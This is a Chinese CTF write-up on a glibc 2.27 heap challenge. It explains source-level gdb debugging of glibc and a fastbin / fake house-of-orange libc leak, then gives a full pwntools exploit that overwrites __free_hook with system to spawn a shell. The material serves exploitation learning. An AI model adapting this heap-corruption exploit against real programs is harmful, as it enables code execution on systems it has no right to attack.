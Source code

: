 # 知识点
- fastbin attack
- "fake" house of orange

# 收获
- gdb 源码级调试glibc
- house of orange 基本原理
## gdb 源码级调试
下载所需版本的glibc源码
```shell
sudo apt-get install libc6-dbg
sudo apt-get install glibc-source
cd /usr/src/glibc
sudo tar xvf glibc-x.xx.tar.xz
```
在gdb中使用:
```shell
dir /usr/src/glibc/glibc-x.xx/malloc
```
即可开始调试。
## house of orange 基本原理及在本题中的
本题的关键难点在于如何泄露libc地址。由于题目限制，无法通过malloc和free将堆块放到unsorted bin这样的双向链表中。
通过学习和调试，了解了glibc-2.27在topchunk大小无法满足用户申请的内存大小后：
1. 先调用`malloc_consolidate`,将内存中相邻的、已经被free的堆块都合并，放在unsorted bin中；
2. 判断unsored bin 中的块是否符合用户需求，如不符合，将该块放入对应大小的bin中，（本题中是small bin，符合unsorted bin 的逻辑)
3. topchunk此时的大小还是不足，但是可能是由于smallbin里面有没被使用的内存块，且大小足够大，因此ptmalloc没有调用sysmalloc从系统申请新的topchunk，而是从smallbin里取出那块内存进行分割，剩余部分存放在unsorted bin，并且在last_remainder中也有地址记录。
4. 上一步中存放在unsorted bin中的块在本题中可以被利用来泄露libc地址。
# exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"
io = process("./pwn")#,env={"LD_PRELOAD":"./libc.so.6"}
def add(idx,size,content):
    io.sendline("1")
    io.recvuntil("index\n")
    io.sendline(str(idx))
    io.recvuntil("size\n")
    io.sendline(str(size))
    io.recvuntil("something\n")
    io.sendline(content)
    io.recvuntil("gift :")
    heap_addr = io.recvline()
    return heap_addr
def remove(idx):
    io.sendline("2")
    io.recvuntil("index")
    io.sendline(str(idx))

heap_addr = int(add(0,0x50,"/bin/sh\x00"),16)
add(1, 0x48, 'aaa\x80bbb')

top_addr = heap_addr + 160

remove(0)
remove(0)
remove(0)
add(2, 0x50, p64(top_addr)*2)
add(3, 0x50, p64(top_addr)*2)
add(4, 0x50, p64(0xf1)*2)

for i in range(8):
    remove(1)
for i in range(8):
    remove(0)

add(5, 0x78, 'aaa\x80bbb')
gdb.attach(io)
add(6, 0x78, 'aaa\x80bbb')
add(7,0x48,'emmm')

libc_base = int(add(8,0x48,p64(top_addr)*2),16)- 4111520
#libc_base = int(add(8,0x48,"123456"),16)- 4111520 #???????? this add modify top chunk addr ??
libc = ELF("./mlibc")
system_addr = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
print("[+]system addr:0x%x"%system_addr)
print("[+]free_hook addr:0x%x"%free_hook)

remove(0)
remove(0)
remove(0)

add(9,0x50,p64(free_hook)*2)
add(10,0x50,p64(free_hook)*2)
add(11,0x50,p64(system_addr))
add(12,0x30,"/bin/sh\x00")
remove(12)
io.interactive()

```

# 待解决
1. 为什么`libc_base = int(add(8,0x48,"12345"),16)- 4111520`会修改topchunk的指针？